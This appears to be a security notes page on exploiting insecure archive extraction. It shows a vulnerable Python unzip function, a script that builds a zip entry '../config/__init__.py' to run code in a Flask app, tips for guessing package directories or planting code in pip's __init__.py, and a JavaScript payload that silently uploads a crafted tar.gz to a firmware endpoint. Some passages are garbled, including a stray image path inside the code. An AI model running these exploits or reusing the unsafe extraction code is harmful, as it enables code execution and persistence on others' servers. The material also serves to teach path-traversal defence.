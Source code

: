 # Exploiting insecure file extraction

### Python

> Compressed file extraction with insecure code vulnerable to path traversal in Python can result in arbitrary code execution by overwriting \_\_init\_\_.py if flask is running in **debug mo**de.

One of the easiest way to achieve [code execution in PHP](https://www.acunetix.com/websitesecurity/upload-forms-threat/) is by exploiting insecurely written file upload handling logic. If you are able to upload arbitrary PHP file by fooling the file upload logic, you can execute arbitrary PHP code. But when it comes to modern web frameworks written in Go, Node.js, Python, Ruby etc. it's a different story. Even if you managed to upload a .py or .js file to the server, requesting these resource via a URL often won't return anything as the route or URL is not exposed by the application. Even if you are able to access the resource by URL, it won't trigger any code execution as it's treated as a static file and just returns plain text source code. This post will explain how to get code execution in one such scenario in Python when you are able to upload compressed files to the server.

Application security rule of thumb is never to trust user input. Don't just limit that concept to RAW HTTP request object that include query params, post body, files, headers etc. Carefully crafted compressed files that looks legit upon extraction can do bad things if it's handled by insecure code. This post is inspired from a [Security Bug](https://github.com/MobSF/Mobile-Security-Framework-MobSF/issues/358) reported to MobSF and tries to cover the technical aspects of the vulnerability and exploitation. Let's take a look into the insecure code.

```

def unzip(zip_file, extraction_path):
    """
    code to unzip files
    """
    print "[INFO] Unzipping"
    try:
        files = [.gitbook/assets/1664529969_8980.png]
        with zipfile.ZipFile(zip_file, "r") as z:
            for fileinfo in z.infolist():
                filename = fileinfo.filename
                dat = z.open(filename, "r")
                files.append(filename)
                outfile = os.path.join(extraction_path, filename)
                if not os.path.exists(os.path.dirname(outfile)):
                    try:
                        os.makedirs(os.path.dirname(outfile))
                    except OSError as exc:  # Guard against race condition
                        if exc.errno != errno.EEXIST:
                            print "\n[WARN] OS Error: Race Condition"
                if not outfile.endswith("/"):
                    with io.open(outfile, mode='wb') as f:
                        f.write(dat.read())
                dat.close()
        return files
    except Exception as e:
        print "[ERROR] Unzipping Error" + str(e)
```

This is a fairly simple python code to extract a zip file and return the list of files in the archive. The zip file comeS to the server after a file upload operation and is send to `unzip()` for extraction. If you look at this line

```
outfile = os.path.join(extraction_path, filename)
```

You can see that `filename` variable is controlled by the user. If we set the value of `filename` to  `../../foo.py`

\>>> import os

\>>> extraction\_path = "/home/ajin/webapp/uploads/"

\>>> filename = "../../foo.py"

\>>> outfile = os.path.join(extraction\_path, filename)

\>>> outfile

'/home/ajin/webapp/uploads/../../foo.py'

\>>> open(outfile, "w").write("print 'test'")

\>>> open("/home/ajin/foo.py", "r").read()

"print 'test'"

By abusing path traversal, we are able to write the file to arbitrary location. In this case into `/home/ajin` instead of `/home/ajin/webapp/uploads/`&#x20;

### Arbitrary Code Execution

We are able to write python code to arbitrary location. Now let's see how we can execute it.\
Consider this sample [vulnerable application](https://github.com/ajinabraham/bad\_python\_extract) written in Python Flask. We will make use of `__init__.py` in Python to achieve code execution. The [docs](https://docs.python.org/2.7/tutorial/modules.html#packages) says&#x20;

> The `__init__.py` files are required to make Python treat the directories as containing packages; this is done to prevent directories with a common name, such as `string`, from unintentionally hiding valid modules that occur later on the module search path. In the simplest case, `__init__.py` can just be an empty file, but it can also execute initialization code for the package or set the `__all__` variable, described later.

So if we can overwrite `__init__.py` file with arbitrary Python code inside a directory of the web application that act as a package, then we can achieve code execution if that package is imported by the application. For our code to execute, a server restart is required in most case. But in this example we are running a Flask server with _debug_ set to _True_ which means every time a Python file is changed, the server will do a restart.

### Crafting the Payload

The vulnerable web app has a directory called [config](https://github.com/ajinabraham/bad\_python\_extract/tree/master/config). There is already `__init__.py` and `settings.py` in this directory. The main server file `server.py` imports `settings.py` from `config` directory, which means if we can write code into `config/__init__.py`, we will be able to achieve code execution. We can craft the payload using the following code:

```
import zipfile
z_info = zipfile.ZipInfo(r"../config/__init__.py")
z_file = zipfile.ZipFile("/home/ajin/Desktop/bad.zip", mode="w")
z_file.writestr(z_info, "print 'test'")
z_info.external_attr = 0777 << 16L
z_file.close()
```

If you look into the [file upload code](https://github.com/ajinabraham/bad\_python\_extract/blob/master/server.py#L62-L63), you can see that the file uploads are extracted into `uploads` directory. We can create a malicious filename with [zipfile.ZipInfo()](https://docs.python.org/2/library/zipfile.html#zipfile.ZipInfo). Here we give the filename as `../config/__init__.py` to overwrite `__init__.py` inside `config` directory. `z_info.external_attr = 0777 << 16L` will set the file permission to read and write by everyone. Let's create a zip file and upload it to the vulnerable web app.

![.gitbook/assets/1664529969_8980.png](https://ajinabraham.com/static/img/blog/2017\_09\_28\_exploit.png)

We can see that the Flask app reloads and the server console prints **test**. Our code execution is successful.&#x20;

### Exploiting Realworld Applications

In this example, the arbitrary code executed instantly as the Flask server was running on debug mode. This may not be the case elsewhere. You might need to wait until the server is restarted. Another problem is that we don't always know the package directory like `config` in this case. It's easy with an open source project where you have access to the source code. For closed source applications, you can take a good guess for package directories like `conf, config, settings, utils, urls, view, tests, scripts, controllers, modules, models, admin, login` etc. These are some of the common package directories found in some Python web frameworks like Django, Flask, Pyramid, Tornado, CherryPy, web2py etc.

Alternatively, let's say the web application is running inside Ubuntu Linux. The installed and inbuilt Python packages will be available under: `/home/<user>/.local/lib/python2.7/site-packages/pip`. Assuming that the app is running under user directory, you can craft a filename like `../../.local/lib/python2.7/site-packages/pip/__init__.py`. Upon extraction, this creates `__init__.py` file inside `pip` directory. If the app is using virtualenv and let's say the virtualenv directory is `venv`, you can use a filename like `../venv/lib/python2.7/site-packages/pip/__init__.py`. The will brick pip, but next time someone run pip command in the server, your code will execute!&#x20;



### Arbitrary File reading

1. Directory traversal (also known as file path traversal)
2. Un lien symbolique



### XSS

```
<script>
    function base64toBlob(base64Data, contentType) {
      contentType = contentType || "";
      var sliceSize = 1024;
      var byteCharacters = atob(base64Data);
      var bytesLength = byteCharacters.length;
      var slicesCount = Math.ceil(bytesLength / sliceSize);
      var byteArrays = new Array(slicesCount);

      for (
        var sliceIndex = 0;
        sliceIndex < slicesCount;
        ++sliceIndex
      ) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
          bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
      }
      return new Blob(byteArrays, { type: contentType });
    }

    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);

    //File contents encoded to Base64
    var b64file =  "H4sICCzHg2IC/3BvYy50YXIA7c9BCoMwEIXhHCUnSGbiBM8TBIsgrbQp9PhGl9KNlu7+jxneboYXQgzfpizLtvM0lDo97vFVWw5xnMst1E91Z0jT57xnc0wRVaeWTHrrLJuTpKqd8+nau3PerdnT+5/vHMsBAAAAAAAAAAAAAAAAAPBHKwtm0PwAKAAA"

    //Create a Blob object
    var content_type = "application/x-gtar-compressed";
    var blob = base64toBlob(b64file, content_type);

    //Append Blob to FormData
    var formData = new FormData();
    formData.append("file", blob, "file.tar.gz");

    //Send FormData to the server via XMLHttpRequest
    var url = "http://localhost:1337/api/firmware/upload";
    var request = new XMLHttpRequest();
    request.open("POST", url);
    request.send(formData);
  </script>
  
  // cat tar.gzip | base64 - w0
```



